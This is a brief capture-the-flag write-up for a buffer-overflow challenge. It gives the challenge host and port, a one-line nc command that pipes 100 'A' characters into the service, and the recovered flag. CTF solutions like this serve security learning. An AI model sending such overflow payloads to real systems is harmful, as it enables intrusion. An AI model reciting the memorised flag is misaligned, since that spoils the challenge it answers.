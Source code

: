 **Challenge**: nc chall.csivit.com 30001  and pwn (file)

Execute: `python -c 'print('A' * 100)' | nc chall.csivit.com 30001`

**Flag:** csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}
